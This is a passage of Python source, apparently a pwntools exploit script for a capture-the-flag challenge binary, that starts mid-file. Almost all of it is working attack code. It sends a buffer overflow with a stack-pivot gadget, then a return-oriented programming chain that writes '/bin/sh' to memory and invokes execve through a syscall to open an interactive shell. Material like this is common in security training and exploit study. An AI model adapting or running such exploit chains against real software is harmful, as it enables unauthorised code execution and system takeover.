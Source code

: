 ```py
        return local(argv, *a, **kw)
    else:
        return remote(argv, *a, **kw)

gdbscript = '''
source /media/nasm/7044d811-e1cd-4997-97d5-c08072ce9497/Downloads/pwndbg/gdbinit.py
b* 0x402036
continue
'''.format(**locals())

#===========================================================
#                    EXPLOIT GOES HERE
#===========================================================

io = start()

# 000000000048ac90    80 FUNC    GLOBAL DEFAULT    7 _dl_make_stack_executable
# 0x0000000000422930 : add rsp, 0x10 ; pop rbp ; ret

# 0x00000000004126e3 : call qword ptr [rax]
# 0x0000000000485fd2 : xchg eax, ebp ; ret
# 0x0000000000405121 : xchg eax, esp ; ret

pld = b"wwwwww"
pld += b"A"*(0x1000-16) + pwn.p64(0x0000000000405121)
io.sendlineafter("Enter text: ", pld)

# 0x000000000045a8f7 : pop rax ; ret
# 0x0000000000404cfe : pop rsi ; ret
# 0x00000000004018da : pop rdi ; ret
# 0x00000000004017df : pop rdx ; ret
# 0x000000000045684f : mov qword ptr [rdi], rsi ; ret

DATA_SEC = 0x0000000004c90e0
POP_RDI = 0x00000000004018da
POP_RSI = 0x0000000000404cfe
POP_RAX = 0x000000000045a8f7
POP_RDX = 0x00000000004017df
MOV_PTR_RDI_RSI = 0x000000000045684f
SYSCALL = 0x00000000004012e3 # syscall

pld = pwn.p64(POP_RDI)
pld += pwn.p64(DATA_SEC)
pld += pwn.p64(POP_RSI)
pld += b"/bin/sh\x00"
pld += pwn.p64(MOV_PTR_RDI_RSI)
pld += pwn.p64(POP_RSI)
pld += pwn.p64(0x0)
pld += pwn.p64(POP_RDX)
pld += pwn.p64(0x0)
pld += pwn.p64(POP_RAX)
pld += pwn.p64(0x3b)
pld += pwn.p64(SYSCALL)

io.sendlineafter("Enter text: ", pld)
io.interactive()
```
